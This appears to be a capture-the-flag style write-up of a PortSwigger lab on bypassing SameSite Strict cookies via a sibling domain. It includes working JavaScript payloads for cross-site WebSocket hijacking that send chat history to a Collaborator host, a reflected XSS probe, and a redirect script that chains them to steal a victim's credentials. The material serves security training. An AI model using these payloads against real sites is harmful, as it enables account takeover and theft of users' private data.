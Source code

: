 # SameSite Strict bypass via sibling domain

## Description

[This lab](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain)'s live chat feature is vulnerable to [cross-site WebSocket hijacking (CSWSH)](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking).

## Reproduction and proof of concept

### Study the live chat feature

1. In Burp's browser, go to the live chat feature and send a few messages.
2. In Burp, go to the **Proxy -> HTTP history** tab and find the WebSocket handshake request. This should be the most recent `GET /chat` request.
3. Notice that this doesn't contain any unpredictable tokens, so may be vulnerable to CSWSH if you can bypass any `SameSite` cookie restrictions.
4. In the browser, refresh the live chat page.
5. In Burp, go to the **Proxy -> WebSockets history** tab. When refreshing the page, the browser sends a `READY` message to the server. This causes the server to respond with the entire chat history.

### Confirm the CSWSH vulnerability
 
1. In Burp, go to the **Collaborator** tab and click **Copy to clipboard**. 
2. In the browser, go to the **exploit server** and use the following template to create a script for a CSWSH proof of concept:

```text
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

3. **Store** and **view the exploit**.
4. In Burp, go back to the Collaborator tab and click Poll now. Observe that you have received an HTTP interaction, which indicates that you've opened a new live chat connection with the target site.
5. Notice that although you've confirmed the CSWSH vulnerability, you've only exfiltrated the chat history for a brand new session, which isn't particularly useful.
6. Go to the **Proxy > HTTP history** tab and find the WebSocket handshake request that was triggered by the script. This should be the most recent `GET /chat` request.
7. Notice that your session cookie was not sent with the request.
8. In the response, notice that the website explicitly specifies `SameSite=Strict` when setting session cookies. This prevents the browser from including these cookies in cross-site requests.

### Identify an additional vulnerability in the same "site"

1. In Burp, study the proxy history and notice that responses to requests for resources like script and image files contain an `Access-Control-Allow-Origin` header, which reveals a sibling domain at `cms-YOUR-LAB-ID.web-security-academy.net`.
2. In the browser, visit this new URL to discover an additional login form.
3. Submit some arbitrary login credentials and observe that the username is reflected in the response in the `Invalid username` message.
4. Try injecting an XSS payload via the `username` parameter, for example:

```text
<script>alert(1)</script>
```
    
5. Observe that the `alert(1)` is called, confirming that this is a viable reflected XSS vector.
6. Send the `POST /login` request containing the XSS payload to Burp Repeater.
7. In Burp Repeater, right-click on the request and select **Change request** method to convert the method to `GET`. Confirm that it still receives the same response.
8. Right-click on the request again and select **Copy URL**. Visit this URL in the browser and confirm that you can still trigger the XSS. As this sibling domain is part of the same site, you can use this XSS to launch the CSWSH attack without it being mitigated by SameSite restrictions.

### Bypass the SameSite restrictions

1. Recreate the CSWSH script tested on the exploit server earlier.

```text
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

2. URL encode the entire script.
3. Go back to the exploit server and create a script that induces the viewer's browser to send the `GET` request just tested, but use the URL-encoded CSWSH payload as the `username` parameter, for example:

```text
<script>
    document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```

4. Store and view the exploit.
5. In Burp, go back to the Collaborator tab and click Poll now. Observe that you've received a number of new interactions, which contain your entire chat history.
6. Go to the **Proxy -> HTTP history** tab and find the WebSocket handshake request that was triggered by your script. This should be the most recent `GET /chat` request.
7. Confirm that this request does contain your `session` cookie. As it was initiated from the vulnerable sibling domain, the browser considers this a same-site request.

### Deliver the exploit chain

1. Go back to the exploit server and deliver the exploit to the victim.
2. In Burp, go back to the Collaborator tab and click Poll now.
3. Observe that you've received a number of new interactions.
4. Study the HTTP interactions and notice that these contain the victim's chat history.
5. Find a message containing the victim's username and password.
6. Use the newly obtained credentials to log in to the victim's account and the lab is solved.

## Exploitability

An attacker needs to use an exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server. The chat history contains the login credentials in plain text. 
